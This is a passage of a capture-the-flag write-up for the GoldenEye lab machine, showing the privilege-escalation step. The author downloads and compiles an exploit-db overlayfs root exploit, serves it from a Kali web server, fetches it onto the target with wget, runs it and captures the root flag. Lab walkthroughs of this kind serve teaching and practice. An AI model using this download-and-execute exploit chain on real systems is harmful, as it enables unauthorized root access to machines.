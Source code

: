 ```bash
root@kali:~$ wget --quiet https://www.exploit-db.com/download/37292 -O ofs.c
root@kali:~$ sed -i 's/gcc -/cc -/' ofs.c
root@kali:~$ gcc ofs.c -o /var/www/html/ofs
root@kali:~$ systemctl start apache2
```

I transferred the exploit to the target machine, granted it execute privileges, ran it, and got root.

```bash
www-data@ubuntu:/dev/shm$ wget -q 192.168.179.1/ofs && chmod +x ofs && ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat .flag.txt
Alec told me to place the codes here: 

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/
```

![](/assets/images/goldeneye/screenshot-19.png)
